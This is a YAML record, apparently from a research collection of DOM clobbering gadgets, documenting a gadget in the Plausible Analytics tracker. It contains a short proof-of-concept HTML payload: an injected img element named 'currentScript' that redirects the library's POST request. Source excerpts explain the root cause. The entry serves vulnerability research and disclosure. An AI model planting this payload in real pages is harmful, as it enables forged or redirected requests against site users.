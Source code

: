 ```yaml
---
description: Simple, open source, lightweight and privacy-friendly web analytics alternative to Google Analytics.
github: plausible/analytics
gadgets:
  Latest:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - data-attr
      - before-lib-load
    pocs:
      - description: The [plausible-analytics](https://github.com/plausible/analytics)'s library uses the `data-domain` and `data-api` attribute of the `document.currentScript` element as a URL reference for a POST request.
        code: |
          <!-- user input -->
          <img name="currentScript" data-domain="[current-location]" data-api="[current-location]/csrf">

          <script defer data-domain="mydomain.com" src="https://plausible.io/js/script.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/plausible/analytics/blob/c92e0afc17c414079d57dfc909bc48a22df95a42/tracker/src/config.js#L7">https://github.com/plausible/analytics/blob/c92e0afc17c414079d57dfc909bc48a22df95a42/tracker/src/config.js#L7</a>

      ```javascript
      var location = window.location
      var document = window.document

      if (COMPILE_COMPAT) {
        var scriptEl = document.getElementById('plausible')
      } else if (COMPILE_PLAUSIBLE_LEGACY_VARIANT) {
        var scriptEl = document.currentScript
      }

      // [...]

      config.endpoint = scriptEl.getAttribute('data-api') || defaultEndpoint()
      config.domain = scriptEl.getAttribute('data-domain')
      config.logging = true
      ```

      Source: <a target="_blank" href="https://github.com/plausible/analytics/blob/c92e0afc17c414079d57dfc909bc48a22df95a42/tracker/src/track.js#L126">https://github.com/plausible/analytics/blob/c92e0afc17c414079d57dfc909bc48a22df95a42/tracker/src/track.js#L126</a>

      ```javascript
      sendRequest(config.endpoint, payload, options)
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/plausible-analytics.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

